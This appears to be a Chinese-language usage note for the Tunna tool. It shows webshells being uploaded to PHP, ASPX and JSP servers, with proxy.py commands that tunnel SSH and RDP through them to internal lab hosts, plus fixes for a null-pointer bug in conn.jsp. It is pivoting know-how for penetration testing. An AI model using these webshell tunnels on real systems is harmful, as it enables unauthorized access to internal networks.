# Tunna

https://github.com/SECFORCE/Tunna

## PHP

上传webshell到服务器


### 场景一

通过webshell转发ssh端口


	python proxy.py -u http://10.10.40.21/conn.php -l 1234 -r 9527 -v -s
	-l 表示本地监听的端口
	-r 远程要转发的端口
	-v 详细模式
	-s 保证连接的时候不会中断




另开一个窗口，ssh连接本地1234端口，查看地址



成功


### 场景二

通过webshell转发内网其他主机ssh端口


	python proxy.py -u http://10.10.40.21/conn.php -l 1234 -r 22 -v -s -a 10.10.40.99
	-l 表示本地监听的端口
	-r 远程要转发的端口
	-v 详细模式
	-s 保证连接的时候不会中断
	-a 要转发的IP




另开一个窗口，ssh连接本地1234端口，查看地址



## ASPX

上传webshell到服务器



### 场景一

通过webshell转发远程桌面3389


	python proxy.py -u http://10.10.40.60/conn.aspx -l 3389 -r 3389 --no-socks
	-l 表示本地监听的端口
	-r 远程要转发的端口
	--no-socks 不使用 Socks 代理




通过remmina连接本地的3389端口





成功连接



### 场景二

通过webshell转发内网其他主机远程桌面3389


	python proxy.py -u http://10.10.40.60/conn.aspx -l 3389 -r 3389  -a 10.10.40.53  -v
	-l 表示本地监听的端口
	-r 远程要转发的端口
	-v 详细模式
	-a 要转发的IP




通过remmina连接本地的3389端口




成功连接



## JSP

上传webshell到服务器



## 场景一

通过webshell转发ssh端口


	python proxy.py -u http://10.10.40.21:8080/conn.jsp -l 1234 -r 9527 -s -v 
	-l 表示本地监听的端口
	-r 远程要转发的端口
	-v 详细模式
	-s 保证连接的时候不会中断




另开一个窗口，ssh连接本地1234端口，查看地址



成功


## 场景二

通过webshell转发内网其他主机ssh端口


	python proxy.py -u http://10.10.40.21:8080/conn.jsp -l 1234 -r 22 -s -v -a 10.10.40.63
	-l 表示本地监听的端口
	-r 远程要转发的端口
	-v 详细模式
	-s 保证连接的时候不会中断
	-a 要转发的IP




另开一个窗口，ssh连接本地1234端口，查看地址



成功


## 遇到的问题

### ERROR500：JSP脚本的空指针

本地搭建一个测试项目，开启debug，断点打在空指针处



模拟脚本运行，传入参数

```
http://localhost:8080/test3_war_exploded/conn.jsp?proxy&port=3389&ip=192.168.153.131
```



可以看到空指针，追踪s



s由session的file得到，再强转，追踪file，找到setAttribute()方法



发现都是些上传文件的操作，可是我们建立HTTP隧道不需要上传文件，应该就是空和null判断错误导致进入了判断语句

**上传文件是python proxy.py -u http://10.10.40.21:8080/conn.jsp -l 1234，建立socks代理




**解决**

将判断条件改为null



**conn.jsp 为本来的，conn.new.jsp 为更改后可用的。**

## ASPX脚本远程桌面遇到的问题

rdesktop连接转发的端口失败

**解决**

rdesktop有点问题

用remmina 可以了



